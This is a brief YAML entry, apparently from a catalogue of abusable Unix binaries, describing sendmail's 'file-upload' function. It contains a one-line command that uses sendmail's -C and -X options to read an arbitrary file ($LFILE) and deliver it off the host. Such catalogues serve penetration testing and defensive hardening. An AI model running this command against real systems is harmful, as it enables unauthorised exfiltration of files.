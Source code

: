 ```yaml
---
description: sendmail differs between systems, depending on whether it is postfix, exim, or otherwise, which provides the binary.
functions:
  file-upload:
    - description: Arbitrary files can be delivered.
      code: |
        sendmail -t -i -f mail@address.com -C$LFILE -X/dev/null < mail.txt
---
```

